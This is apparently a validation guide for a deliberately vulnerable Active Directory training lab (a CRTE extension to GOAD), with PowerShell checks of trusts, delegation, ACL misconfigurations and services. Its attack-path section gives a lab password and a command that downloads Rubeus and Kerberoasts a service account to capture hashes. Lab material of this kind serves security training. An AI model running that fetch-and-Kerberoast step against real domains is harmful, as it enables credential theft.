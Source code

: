 # CRTE Extension for GOAD - Validation Guide

This guide provides instructions for validating that the CRTE extension has been properly installed and configured on your GOAD environment.

## Validation Script

The CRTE extension includes a validation script that automatically checks the configuration of all components:

```powershell
# Run the validation script
.\validate.ps1
```

The validation script checks:
1. Domain creation and accessibility
2. Trust relationships
3. User and group creation
4. Vulnerability configurations
5. Service configurations

## Manual Validation Steps

If you prefer to validate the installation manually, follow these steps:

### 1. Validate Domain Structure

Verify that all required domains have been created:

```powershell
# Check domain trusts from the main domain controller
Enter-PSSession -ComputerName 192.168.56.10 -Credential (Get-Credential)
nltest /domain_trusts
Exit-PSSession

# Check child domain
Enter-PSSession -ComputerName 192.168.56.11 -Credential (Get-Credential)
nltest /domain_trusts
Exit-PSSession

# Check additional forests
Enter-PSSession -ComputerName 192.168.56.20 -Credential (Get-Credential)
nltest /domain_trusts
Exit-PSSession
```

Expected output should show trusts between:
- kingandqueen.local and north.kingandqueen.local (parent-child)
- kingandqueen.local and bastion.local (one-way)
- bastion.local and production.local (one-way)
- north.kingandqueen.local and db.local (selective authentication)
- db.local and dbvendor.local (two-way)
- north.kingandqueen.local and usvendor.local (one-way)

### 2. Validate User Accounts

Verify that the required user accounts have been created:

```powershell
# Check users in kingandqueen.local
Enter-PSSession -ComputerName 192.168.56.10 -Credential (Get-Credential)
Get-ADUser -Filter * | Where-Object {$_.SamAccountName -like "crte*" -or $_.SamAccountName -like "svc_*"}
Exit-PSSession

# Check users in north.kingandqueen.local
Enter-PSSession -ComputerName 192.168.56.11 -Credential (Get-Credential)
Get-ADUser -Filter * | Where-Object {$_.SamAccountName -like "regular_*" -or $_.SamAccountName -like "helpdesk_*" -or $_.SamAccountName -like "svc_*" -or $_.SamAccountName -like "user_*"}
Exit-PSSession
```

### 3. Validate Kerberos Delegation

Verify that Kerberos delegation is properly configured:

```powershell
# Check unconstrained delegation
Enter-PSSession -ComputerName 192.168.56.11 -Credential (Get-Credential)
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation

# Check constrained delegation
Get-ADComputer -Filter {TrustedToAuthForDelegation -eq $true} -Properties msDS-AllowedToDelegateTo
Exit-PSSession
```

### 4. Validate ACL Misconfigurations

Verify that ACL misconfigurations are properly configured:

```powershell
# Check GenericAll permission on Domain Admins
Enter-PSSession -ComputerName 192.168.56.11 -Credential (Get-Credential)
Import-Module ActiveDirectory
$group = Get-ADGroup "Domain Admins"
(Get-Acl -Path "AD:$($group.DistinguishedName)").Access | Where-Object {$_.IdentityReference -like "*helpdesk_admin*"}
Exit-PSSession
```

### 5. Validate SQL Server Links

Verify that SQL Server links are properly configured:

```powershell
# Check SQL Server links
Enter-PSSession -ComputerName 192.168.56.23 -Credential (Get-Credential)
Invoke-Sqlcmd -Query "SELECT name FROM sys.servers WHERE is_linked = 1" -ServerInstance "localhost"
Exit-PSSession
```

### 6. Validate Azure AD Connect

Verify that Azure AD Connect is properly configured:

```powershell
# Check Azure AD Connect configuration
Enter-PSSession -ComputerName 192.168.56.28 -Credential (Get-Credential)
Test-Path "C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf"
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Azure AD Connect" -Name "Install Path" -ErrorAction SilentlyContinue
Exit-PSSession
```

### 7. Validate Exchange Server

Verify that Exchange Server is properly configured:

```powershell
# Check Exchange Server configuration
Enter-PSSession -ComputerName 192.168.56.22 -Credential (Get-Credential)
Test-Path "C:\Program Files\Microsoft\Exchange Server\V15\VulnerablePermissions.txt"
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\ExchangeServer\v15" -Name "InstallPath" -ErrorAction SilentlyContinue
Exit-PSSession
```

## Testing Attack Paths

To fully validate the CRTE extension, you should test the attack paths described in the attack paths documentation:

1. Log in to the student machine using the provided credentials
2. Attempt to execute the attack paths using the provided tools
3. Verify that each attack path works as expected

### Initial Testing

Start with a simple attack path to verify basic functionality:

```powershell
# Log in to the student machine
# Use these credentials:
# Username: regular_user
# Password: Password123!
# Domain: north.kingandqueen.local

# Test Kerberoasting
# Download and run Rubeus
Invoke-WebRequest -Uri "http://192.168.56.100/Rubeus.exe" -OutFile "Rubeus.exe"
.\Rubeus.exe kerberoast /user:svc_sql /domain:kingandqueen.local /outfile:hashes.txt

# Verify that a hash was captured
Get-Content .\hashes.txt
```

If the initial test is successful, proceed to test other attack paths as described in the attack paths documentation.

## Troubleshooting

If validation fails, check the following:

### Domain Issues

If domains are not properly created or accessible:
- Verify that the domain controllers are running
- Check DNS configuration
- Review the domain creation logs in the `domains` directory

### Trust Issues

If trust relationships are not properly configured:
- Verify that DNS resolution works between domains
- Check the trust configuration logs in the `domains` directory
- Try recreating the trusts manually using the `setup_trusts.ps1` script

### User Account Issues

If user accounts are not properly created:
- Check the user creation logs in the `users` directory
- Try recreating the users manually using the `create_users.ps1` script

### Vulnerability Configuration Issues

If vulnerabilities are not properly configured:
- Check the vulnerability configuration logs in the `vulnerabilities` directory
- Try reconfiguring the vulnerabilities manually using the specific vulnerability scripts

## Next Steps

Once validation is complete and all components are working as expected, you can:

1. Begin practicing the CRTE attack scenarios
2. Customize the environment to add additional attack paths
3. Extend the environment with your own scenarios

For detailed information on the available attack paths and scenarios, refer to the attack path documentation.
